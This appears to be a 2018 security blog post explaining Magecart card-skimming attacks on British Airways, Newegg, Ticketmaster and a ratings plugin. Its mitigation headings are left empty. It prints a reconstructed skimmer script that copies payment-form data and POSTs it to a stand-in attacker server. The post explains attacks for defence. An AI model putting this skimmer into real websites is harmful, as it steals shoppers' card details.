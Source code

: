 ```yaml
---
title: Everything you need to know on Magecart Attacks
date: "2018-10-19T19:12:03.284Z"
---
```


In the last month a group of hackers called Magecart came back striking in full force.

They first came in the news back in 2015 when [RiskIQ](https://riskiq.com) found out they injected code in Magento's "Magecart" shopping software.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming payment forms on the internet.

## How?

![](./threat.png)

Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, a POST request with all the sensitive information is sent to an external server that is set up to receive it.

![](./on-payment.png)

The code in the British Airways attack was the following:

![](./british-airways.png)

Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```



## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either **directly**, or in **indirect ways**.

An example of indirect attack that happened this September, when the group targeted [Shopper Approved](https://www.shopperapproved.com), an ecommerce plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇

![](sa-clean.png)

Malicious file 👇

![](sa-obfuscated.png)

The code shown operates exactly how you'd imagine and can be roughly translated as the readable reconstruction shown above.

### Newegg Breach

In the Newegg attack, the criminals registered a domain called **neweggstats.com** and used it paired with a paid Comodo TLS certificate to give legitimacy to their page.

This time the card skimmer was placed directly inside the source code of the payment processing page, this means Newegg was compromised **directly**.

The code used in this attack was the same as the one used in the British Airways hack, adapted to fit the new victim's website.

### Ticketmaster Attack

A fourth attack targeted Ticketmaster through Inbenta, a third party tool that "Uses Artificial Intelligence and NLP to increase customer happiness and your company's bottomline".

This service is integrates through custom subdomains for every client.

So we should check for the Ticketmaster subdomains that are:
```markdown
ticketmasterat.inbenta.com
ticketmasterau.inbenta.com
ticketmasterbe.inbenta.com
ticketmasterde.inbenta.com
ticketmasterdk.inbenta.com
ticketmasterfi.inbenta.com
ticketmasterfr.inbenta.com
ticketmasterie.inbenta.com
ticketmasternl.inbenta.com
ticketmasterno.inbenta.com
ticketmasternz.inbenta.com
ticketmasterpl.inbenta.com
ticketmasterse-avatar.inbenta.com
ticketmasterse.inbenta.com
ticketmastertr.inbenta.com
ticketmasteruk.inbenta.com
ticketmasterus.inbenta.com
```

Inside the Ticketmaster UK js resources there was a function that inserted an external script from Inbenta.

![](inbenta.png)

And right there you could find the malicious code by Magecart above the original script:

![](malicious-inbenta.png)

The attackers initially (on June 12th) even deleted the original code by Inbenta and only included their code.

![](inbenta-deleted.png)

In this case Inbenta's operations were surely compromised directly as the hackers gained enough access to edit as their pleasing the static assets multiple times.

Other Ticketmaster websites around the world were also breached either via Inbenta or via another third party plugin called SOCIAPlus, an "E-commerce Big & Social analysis service".

These breaches are only the tip of the Iceberg.

Magecart is now targeting the backbones of the internet.

Sometimes they even have the audacity of blackmailing website admins, like in this case:

![](magecart-blackmail.png)

It's clear that these attacks are a dangerous problem, so let's try and figure out the best way organisations can tackle them.

## Neutralising Attacks

Now that we've understood how the group organises its attacks let's figure out and evaluate strategies to tackle them.

### Subresource Integrity

### Crawling

### Detecting Code Obfuscation

### Avoiding external CDNs

### Hashing Values and checking diffs